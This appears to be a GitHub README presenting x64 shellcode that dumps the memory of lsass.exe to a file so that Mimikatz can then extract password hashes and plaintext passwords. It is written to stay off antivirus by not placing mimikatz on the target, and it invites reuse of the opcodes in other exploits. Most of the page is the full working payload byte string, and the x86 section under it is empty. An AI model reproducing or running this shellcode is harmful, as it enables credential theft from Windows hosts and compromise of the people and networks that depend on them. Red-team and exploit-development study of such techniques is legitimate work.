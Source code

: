 # Shellcode for creating a minidump-file (.dmp) of lsass.exe

**Purpose:** Created to avoid putting mimikatz directly on the targed system. The shellcode can be incorporated into different projects/exploits etc. 

**Limitations:** The SeDebugPrivilege has to be enabled before using the shellcode. *(Hint: Powershell enables SeDebugPrivileged by default if the current user is allowed to use it i.e the local administrator).*  

**Script:** The script is created in Python3 with the keystone-engine module (pip install keystone-engine)

**Where:** A file named lsass.dmp is created within the directory where the shellcode is executed.

**Fun-fact:** The Win32 API used: MiniDumpWriteDump is located within dbgcore.dll and not dbghelp.dll. For more information [MiniDumpWriteDump according to msdn](https://docs.microsoft.com/en-us/windows/win32/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump)

**Idea:** The idea came from reading this c++ script from [ired.team](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass) 

**Thanks:** Offensive-Security and their [Exploit Development course Exp-301](https://www.offensive-security.com/exp301-osed/)

## Example:
The script can be executed directly using Python. Otherwise, extract the opcodes and use them in another project. 
![Dumping lsass.exe](/img/First.PNG "Example")

After the lsass.dmp is created, Mimikatz can be used to extract the hashes and/or passwords.
![Extracting using mimikatz](/img/Second.PNG "Example")

## x64 shellcode:
payload = ("\x48\x89\xe5\x48\x31\xc0\xb8\xff\xfc\xff\xff\xff\xc0\xf7\xd8\x48\x29\xc4\x48\x31\xc9\x65\x48\x8b\x71\x60\x48\x8b\x76\x18\x48\x8b\x76\x30\x48\x8b\x36\x48\x8b\x36\x4c\x8b\x66\x10\xeb\x67\x41\x5e\x48\x31\xc0\x48\x31\xff\x48\x31\xdb\x41\x8b\x44\x24\x3c\xbf\x78\xff\xff\xff\xf7\xdf\x01\xf8\x41\x8b\x3c\x04\x4c\x01\xe7\x8b\x4f\x18\x8b\x5f\x20\x4d\x89\xe0\x49\x01\xd8\x67\xe3\x35\xff\xc9\x41\x8b\x34\x88\x4c\x01\xe6\x48\x31\xc0\x99\xfc\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x44\x39\xfa\x75\xde\x8b\x57\x24\x4c\x01\xe2\x66\x8b\x0c\x4a\x8b\x57\x1c\x4c\x01\xe2\x8b\x04\x8a\x4c\x01\xe0\x41\x56\xc3\x41\xbf\x7e\xd8\xe2\x73\xe8\x8e\xff\xff\xff\x48\x89\x45\x10\x41\xbf\x8e\x4e\x0e\xec\xe8\x7f\xff\xff\xff\x48\x89\x45\x18\x41\xbf\xed\xdf\x54\xe4\xe8\x70\xff\xff\xff\x48\x89\x45\x20\x41\xbf\x4a\x65\x76\x47\xe8\x61\xff\xff\xff\x48\x89\x45\x28\xb8\x5b\xe8\xff\x83\xf7\xd8\x41\x89\xc7\xe8\x4e\xff\xff\xff\x48\x89\x45\x30\x41\xbf\xc0\x97\xe2\xef\xe8\x3f\xff\xff\xff\x48\x89\x45\x38\x31\xc0\x50\xb8\x9c\x93\x93\xff\xf7\xd8\x50\x48\xb8\x64\x62\x67\x63\x6f\x72\x65\x2e\x50\x48\x8d\x0c\x24\x48\x83\xec\x40\xff\x55\x18\x48\x83\xc4\x40\x49\x89\xc4\x41\xbf\x93\xb8\xce\x79\xe8\x08\xff\xff\xff\x48\x89\x45\x40\x48\x31\xd2\x48\x89\xd1\x48\xff\xc1\x48\xff\xc1\x48\x83\xec\x40\xff\x55\x20\x48\x83\xc4\x40\x49\x89\xc5\x48\xc7\xc0\xc8\xfd\xff\xff\x48\xf7\xd8\x50\x48\x31\xc0\x89\x44\x24\x04\x89\x44\x24\x08\x89\x44\x24\x0c\x89\x44\x24\x10\x89\x44\x24\x14\x48\x89\x44\x24\x18\x89\x44\x24\x20\x89\x44\x24\x24\x49\x89\xe6\xb8\x9b\xff\xff\xff\xf7\xd8\x50\x48\xb8\x6c\x73\x61\x73\x73\x2e\x65\x78\x50\x49\x89\xe7\x48\x31\xc0\x48\xff\xc0\xfc\xeb\x27\x48\x83\xec\x40\x4c\x89\xe9\x4c\x89\xf2\xff\x55\x28\x49\x8d\x7e\x2c\x48\x83\xc4\x40\x48\x31\xc9\xb1\x09\x4c\x89\xfe\xf3\xa6\x75\x06\x4d\x8b\x66\x08\xeb\x04\x85\xc0\x75\xd5\x48\x83\xec\x40\xb9\x01\xf0\xe0\xff\xf7\xd9\x48\x31\xd2\x4d\x89\xe0\xff\x55\x38\x48\x83\xc4\x40\x49\x89\xc5\x48\x31\xc0\x50\xb8\x90\xff\xff\xff\xf7\xd8\x50\x48\xb8\x6c\x73\x61\x73\x73\x2e\x64\x6d\x50\x48\x89\xe1\x48\x83\xec\x40\x48\x31\xc0\xb0\x10\xc1\xe0\x18\x48\x89\xc2\x4d\x31\xc0\x4d\x31\xc9\x48\x31\xc0\x48\xff\xc0\x48\xff\xc0\x48\x89\x44\x24\x20\x48\x31\xc0\xb0\x80\x48\x89\x44\x24\x28\x48\x31\xc0\x48\x89\x44\x24\x30\xff\x55\x30\x49\x89\xc6\x48\x83\xc4\x40\x48\x83\xec\x40\x4c\x89\xe9\x4c\x89\xe2\x4d\x89\xf0\x4d\x31\xc9\x4c\x89\x4c\x24\x20\x4c\x89\x4c\x24\x28\x4c\x89\x4c\x24\x30\x49\xff\xc1\x49\xff\xc1\xff\x55\x40\x48\x83\xc4\x40\x31\xc9\xff\x55\x10")

## x86 shellcode:

